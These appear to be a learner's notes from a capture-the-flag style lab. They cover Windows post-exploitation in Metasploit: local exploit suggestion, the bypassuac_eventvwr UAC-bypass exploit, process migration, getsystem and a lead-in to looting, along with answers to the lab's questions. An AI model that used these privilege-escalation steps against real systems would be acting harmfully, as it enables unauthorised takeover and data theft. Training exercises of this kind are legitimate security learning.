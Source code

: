 ![[cej4v2pg.bmp]]

Gather info about the system on a shell -> systeminfo (this one works)

What build of Windows is the system?

![[1npdi5n2.bmp]]

so is: 7601

> Now that we know the architecture of the process, let's perform some further recon.

-> **search post/multi/recon/local_exploit_suggester**

-> set session 1

-> set ShowDetailsInClear True -> run

![[tatvzwq8.bmp]]

> What is the full path (starting with exploit/) for the first returned exploit?

**ANS:** exploit/windows/local/bypassuac_eventvwr

Now that we have an exploit in mind for elevating our privileges


![[3cqxiwzb.bmp]]

-> **use exploit/windows/local/bypassuac_eventvwr**

-> set session 1 -> options -> "setup the rhosts and lhost if required"

To change the Ip from etho to tun0 go and set the lhost to **tun0** and run the exploit again

-> set LHOST tun0 (do this if required)

-> run

> What permission listed allows us to take ownership of files?

-> getprivs

![[eilgogpc.bmp]]

**ANS:** SeTakeOwnershipPrivilege

-> ps -> migrate 'PID'

![[b5jbaxv3.bmp]]

-> getsystem

Now that we’ve made our way to full administrator permissions we’ll set our sights on looting.

![[92f0i6c8.bmp]]

-> help

![[0p229wga.bmp]]
